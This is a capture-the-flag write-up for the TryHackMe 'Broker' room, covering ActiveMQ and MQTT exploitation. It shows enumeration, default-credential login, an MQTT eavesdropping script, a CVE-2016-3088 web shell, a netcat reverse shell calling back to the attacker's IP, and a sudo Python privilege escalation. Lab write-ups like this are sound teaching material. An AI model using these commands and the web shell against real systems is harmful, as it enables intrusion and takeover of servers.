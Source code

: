 # 68 - Broker (ActiveMQ / mqtt exploitation)

Room Link --> [https://tryhackme.com/room/broker](https://tryhackme.com/room/broker)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.127.44 -p- -sV -T4 -T5

PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
1883/tcp  open  mqtt?      syn-ack
8161/tcp  open  http       syn-ack Jetty 7.6.9.v20130131
43859/tcp open  tcpwrapped syn-ack
```
{% endcode %}

Navigating to [http://10.10.127.44:8161/](http://10.10.127.44:8161/)

<figure><img src=".gitbook/assets/image (454).png" alt=""><figcaption></figcaption></figure>

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.127.44:8161/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -x txt,html,php -x 403,404,500

/images
/admin
/api 
/styles
```
{% endcode %}

Navigating to the Admin nel; i tried to login with `admin : admin` and it worked

<figure><img src=".gitbook/assets/image (455).png" alt=""><figcaption></figcaption></figure>

Looking at the result above one port came back as MQTT server and the other came back as Jetty. MQTT protocol provides a lightweight way of both publishing and subscribing models. Basically is acts as a lightweight messaging protocol. In our case it has null authentication enabled meaning we can subscribe to any published message without having any valid credentials. I decided to subscribe to any published models in the background .

At this point it is clear that we need to talk to the daemon `mqtt` running on port 1883(check nmap scans). So searching for a `mqtt` client found this:

> [_https://github.com/eclipse/paho.mqtt.python#getting-started_](https://github.com/eclipse/paho.mqtt.python#getting-started)

Also found this link very useful:

> [_http://www.steves-internet-guide.com/into-mqtt-python-client/_](http://www.steves-internet-guide.com/into-mqtt-python-client/)

But we still need a “topic” for `subscribe()` to subscribe to a topic and receive messages. This was found here:

> [http://10.10.127.44:8161/admin/xml/topics.jsp](http://10.10.127.44:8161/admin/xml/topics.jsp)

<figure><img src=".gitbook/assets/image (456).png" alt=""><figcaption></figcaption></figure>

So edited the code from GitHub link and added the topic,IP Address of the Target and the MQTT version which needed to be 3.1:

[https://gist.github.com/shamsherkhan852/cb0d884c7eded07e7b5cc3df529fca59#file-mqtt\_client-py](https://gist.github.com/shamsherkhan852/cb0d884c7eded07e7b5cc3df529fca59#file-mqtt\_client-py)

```python
#https://github.com/eclipse/paho.mqtt.python#getting-started
#https://shamsher-khan.medium.com/broker-tryhackme-writeup-93202a3f778
import paho.mqtt.client as mqtt

# The callback for when the client receives a CONNACK response from the server.
def on_connect(client, userdata, flags, rc):
    print("Connected with result code "+str(rc))
    # Subscribing in on_connect() means that if we lose the connection and
    # reconnect then subscriptions will be renewed.
    client.subscribe("secret_chat")

# The callback for when a PUBLISH message is received from the server.
def on_message(client, userdata, msg):
    print(msg.topic+" "+str(msg.payload))

client = mqtt.Client(protocol=mqtt.MQTTv31)
client.on_connect = on_connect
client.on_message = on_message

client.connect("10.10.120.228", 1883, 60) # CHANGE THE IP ADDRESS TO THM's ROOMs IP

# Blocking call that processes network traffic, dispatches callbacks and
# handles reconnecting.
# Other loop*() functions are available that give a threaded interface and a
# manual interface.
client.loop_forever()
```

#### The videogame they were talking about:

<figure><img src=".gitbook/assets/image (457).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Search google for an exploit for `ActiveMQ` and found this:

[https://github.com/gsheller/ActiveMQ\_putshell-CVE-2016-3088](https://github.com/gsheller/ActiveMQ\_putshell-CVE-2016-3088)

<figure><img src=".gitbook/assets/image (458).png" alt=""><figcaption></figcaption></figure>

And this put a web shell at [http://10.10.127.44:8161/admin/guo.jsp](http://10.10.127.44:8161/admin/guo.jsp)&#x20;

To execute the exploit we go here: [http://10.10.127.44:8161/admin/guo.jsp?pwd=gshell\&shell=id](http://10.10.127.44:8161/admin/guo.jsp?pwd=gshell\&shell=id)

<figure><img src=".gitbook/assets/image (459).png" alt=""><figcaption></figcaption></figure>

#### Rev Shell

I used this to get rev shell:

```
nc 10.18.88.214 9002 -e /bin/sh
```

[http://10.10.127.44:8161/admin/guo.jsp?pwd=gshell\&shell=nc%2010.18.88.214%209002%20-e%20/bin/sh](http://10.10.127.44:8161/admin/guo.jsp?pwd=gshell\&shell=nc%2010.18.88.214%209002%20-e%20/bin/sh)

<figure><img src=".gitbook/assets/image (460).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

`sudo -l` we can execute python as root.

<figure><img src=".gitbook/assets/image (461).png" alt=""><figcaption></figcaption></figure>

So we have RW priv on the subscribe.py file, we can replace it with malicious python code and get root.

`echo 'import pty\npty.spawn("/bin/sh")' > subscribe.py`&#x20;

`sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py`&#x20;

And i got root.

<figure><img src=".gitbook/assets/image (462).png" alt=""><figcaption></figcaption></figure>

Done!!
